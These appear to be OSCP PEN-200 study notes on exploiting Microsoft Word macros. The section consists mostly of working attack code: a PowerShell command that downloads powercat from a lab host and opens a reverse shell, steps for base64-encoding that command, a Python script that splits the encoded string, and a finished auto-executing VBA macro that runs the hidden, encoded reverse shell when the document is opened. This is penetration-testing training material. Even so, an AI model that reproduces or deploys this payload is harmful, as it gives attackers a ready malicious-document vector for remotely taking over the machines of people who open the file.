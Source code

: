 OSCP Pen-200 CHP 12
- ## 12.12 Exploiting Microsoft Office - Word Macros

Macros in [_Visual Basic for Applications_](https://docs.microsoft.com/en-us/office/vba/api/overview/) (VBA) provide full access to [_ActiveX objects_](https://en.wikipedia.org/wiki/ActiveX) and the Windows Script Host, similar to JavaScript in HTML applications.
To use Macros, we need to use .doc not .docx, as .docx requires a containing template.

MS Word -> View -> Macros ->  Name, Mymacro -> Create.
To get the MACRO to auto execute, when the doc open , we add AutoOpen() and Document_Open()
Note: there is a 255-character limit for literal strings, so we need to split up base64-encoded PS commands into multiple strings, and then concatenate.

```powershell
# Powershell RevShell that is getting encoded : 
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158/powercat.ps1');powercat -c 192.168.45.158 -p 4444 -e powershell

# base64 encode

$Text = 'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.158/powercat.ps1");powercat -c 192.168.45.158 -p 4444 -e powershell'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

```

python script to split our base64 encoded powershell into multiple strings easily..

```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Finished Macro looks like 
```powershell

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
Str = Str + "powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBj"
Str = Str + "AGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA4ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdAB"
Str = Str + "TAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJA"
Str = Str + "BiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAe"
Str = Str + "QBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgA"
Str = Str + "IAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4"
Str = Str + "AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAG"
Str = Str + "MAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7A"
Str = Str + "CQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
    CreateObject("Wscript.Shell").Run Str
End Sub

```